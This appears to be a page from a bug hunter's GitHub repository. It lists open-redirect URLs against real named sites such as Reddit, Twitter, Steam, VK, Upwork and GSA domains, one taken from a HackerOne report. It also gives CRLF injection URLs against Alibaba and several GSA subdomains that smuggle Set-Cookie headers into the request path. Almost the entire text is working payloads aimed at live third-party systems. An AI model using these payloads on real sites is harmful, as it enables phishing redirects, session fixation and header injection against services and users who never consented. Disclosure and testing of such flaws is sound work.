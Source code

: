 **Open redirects:**

https://alb.reddit.com/cr?za=mfKscUSkz9_irc34eLiTH94O08WRdgg0KPRCtuMIQ82t1DkuAWmz84uvFr1ahNd_wRL2SG26OWoTIimIujAsYf2q_Yxb2a5s2Kxd20p7-uhzcQ5jiQO2c8j7DrBzM91yjf6p_Ya1b7EZ4aewDCR7JytFYJUoeSfKX2DEKAZ8yUM_Rf8yu8M8YAHX--XTC6xhHLUHb0L9uKxNCNFn8ovoru6KhTT8pCfnGpzRS3_jfxJ_JkxFdTC8Dwt6-phYYdfTZLCz1o8YH2xKy2bSJ3M3idygvoou9cFEStUFX17EEYhxvD2bA1s0OTIKgoOHl2BTglr912ry-ztH7rqX5ZVb5TYIcrVfpVillCD7gCJ3Vd4a5sZfGPQG8w0-1EBtcAE0ECzhctLul8CEvBBPhsOVUCybkDyXOz_Lp4Md3eJn2Uv1QdPh0jf6kyJ4XeWLf1UgGEKdhsy-xKLiDL1KWLdhpeAinQveJ3LNg1Y4iUEyQg0IProuPibcy9GGhx8pZ1W6DnN1kvsWt6vsUWlef8Ge4us5ec2c0Y8DBglo9gb4j3w&zp=L8Hbgz194kQRDi1OTZ_qxQQYcxlKyI94jRxGCTAcE1-hbL0ABxpZ-DGkWZAwQMJNsjb2SLrt-o7mM1RrkIUjNOReHB0Sf3N-y1uH0kZ44q9J3PN4bDW4f_p-Hiagz1sjXPowiCRAm6BsCpHKFmct6_KG5FLZnJMCT8Oa93-qWedjLBjFXjAb6zn41p3ov0E

https://www.mysales.fas.gsa.gov/google.com/

https://www.upwork.com/signup/verification-success?redirectTo=https%3a%2f%2fgoogle%2ecom%5c%2ewww%2eupwork%2ecom%2f&flowName=client_high_potential

https://twitter.com/login?redirect_after_login=https%3a%2f%2f%63%61%72%64s%2etwitter%2ecom%2fcards%2f18ce54su0k1%2f6tc5h

https://store.steampowered.com/paypal/launchauth/?webbasedpurchasing=1&transid=2614806773554997295&authurl=https%3A%2F%2Fduckduckgo.com%2Forb%2Forb%3FACTION%3DDO_START%26REF%3D000000003700003159190000100001%26MAC%3D7UYgidiXPXlSwepsEkIkt2cjtzUjBN4cskq05erf%252Bhk%253D&s=5b57c3c66fea1edb71950f1b

https://cards.twitter.com/cards/18ce53vq7ws/5xxeq

https://vk.com/login?u=2&to=YXdheS5waHA/dG89aHR0cDovL2FtcC5ncy9Wb3VxJnBvc3Q9LTIwNjI5NzI0XzExNjAyMDImY2Nfa2V5P

https://vk.com/notifier.php - redirect via referrer, "Back" button

https://www.zomato.com/login?redirect_url=https://askdcodes.org - taken from https://hackerone.com/reports/473064

**CRLF injections:**

CRLF injection (OOS) - https://jiagong.china.alibaba.com//xxx/x%23%0dSet-Cookie:%20a=a;

CRLF injection (OOS) -  https://www.mysales.fas.gsa.gov///%0aSet-Cookie:%201=1;
Same at https://www.fleet.fas.gsa.gov/
https://www.fleeteur.fas.gsa.gov/
https://www.cars.fas.gsa.gov/
https://www.fleeteurb.fas.gsa.gov/
https://www.fmvrs.fas.gsa.gov/
